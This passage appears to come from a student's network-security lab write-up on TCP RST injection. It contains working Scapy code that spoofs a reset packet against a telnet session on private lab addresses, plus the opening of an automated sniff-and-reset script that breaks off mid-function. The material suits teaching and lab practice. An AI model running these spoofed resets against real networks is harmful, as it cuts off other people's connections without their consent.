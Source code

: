         ip = IP(src="10.9.0.5", dst="10.9.0.6")
        tcp = TCP(sport=32866, dport=23, flags="R", seq=3081787589)
        pkt = ip/tcp
        ls(pkt)
        send(pkt, verbose=0)
        ```
- Then after running the script `python3 spoof_rst.py`, we see that the telnet connection is terminated:
    - ![telnet_connection_terminated](images/telnet_connection_terminated.png)
    - `Connection closed by foreign host.` in the victim machine terminal shows that the telnet connection is terminated by the spoofed TCP RST packet.
## Task 2 Optional: automating the TCP RST attack
- We are asked to sniff and spoof the TCP RST packet automatically using a python script.
- I create a python script `auto_rst.py` that sniffs the packets and spoofs
    - ```python
        #!/usr/bin/env python3
        from scapy.all import *
        import time
        import threading

        sequenceNumber = 0
        sourcePort = 0
        lastPacketTime = None
        timeout = 10 
        done = False

        def resetConnection():
            """Crafts and sends a TCP RST packet to terminate the connection."""
            global sequenceNumber, sourcePort, done
            print(f"\n[!] No packets seen for {timeout} seconds. Sending RST packet...")
            ip = IP(src="10.9.0.5", dst="10.9.0.6")
            # uses last seen sequence number and port to target the connection
            tcp = TCP(sport=sourcePort, dport=23, flags="R", seq=sequenceNumber)
            pkt = ip/tcp
            